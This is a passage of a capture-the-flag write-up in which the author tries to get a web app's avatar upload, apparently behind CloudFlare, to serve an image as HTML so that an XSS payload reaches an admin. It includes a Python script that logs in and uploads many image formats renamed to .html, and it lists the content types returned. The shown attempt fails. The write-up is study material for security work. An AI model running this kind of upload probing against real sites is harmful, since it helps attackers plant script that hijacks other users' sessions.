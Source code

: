 #### Solution 1: XSS in SVG image

Based on the error page, the backend server is probably nginx + Flask(Python) + CloudFlare.

In the profile page, we can upload an avatar to the server.  The server will check if this file is an valid image, and the size has to be 100x100. I rename a valid PNG image to `foo.html` and uploaded it. However the HTTP  content type is still `image/png`. The CloudFlare seems to [overwrite the content-type](https://community.cloudflare.com/t/cloudflare-is-changing-the-response-content-type/3152) based on the content.

Note if the content type is `image/png`, sending this link to admin will not trigger the XSS payload. The browser will simply render it as an image (or download it). So what if we upload a valid 100x100 image, but the CloudFlare fails to detect the content-type so that we can trigger the XSS payload?

Since I don't know which library is used for determine the filetype and extract the size, I have to write a script to try all possible image format. I use [imagemagick supported filetype](https://imagemagick.org/script/formats.php#supported) as a list to create lots of images with different formats.

```python
#!/usr/bin/env python3
import requests, glob
import secrets
s = requests.session()
r = s.post('http://web50.zajebistyc.tf/login', data=dict(login='laiph6Ieroh4iema',password='laiph6Ieroh4iema'))
for f in glob.glob("file/*"):
    print(f)
    filename = secrets.token_urlsafe(16) + '.html'
    payload = open(f, 'rb').read()
    files = { 
        'avatar': (filename, payload)
    }   
    
    r = s.post('http://web50.zajebistyc.tf/profile/laiph6Ieroh4iema', files=files)
    if 'not a valid image' in r.text[:150]:
        print(r.text)
        continue
    if 'sorry, we only accept 100x100 images' in r.text[:150]:
        print(r.text)
        continue
    url = 'http://web50.zajebistyc.tf/avatar/62eee5152305547ff387eef08af028d340611ce15db259aeb714f6518328885b/'+filename
    print(url)
    r = s.get(url)
    print(r.headers['Content-Type'])
```

Unfortunately, either the server said it's an invalid image, or CloudFlare can correctly determine the filetype.......

```
image/gif
image/jp2
image/jpeg
image/png
image/svg+xml
image/tiff
image/x-dpx
image/x-eps
image/x-exr
image/x-ms-bmp
image/x-pcx
image/x-portable-bitmap
image/x-portable-greymap
image/x-portable-pixmap
```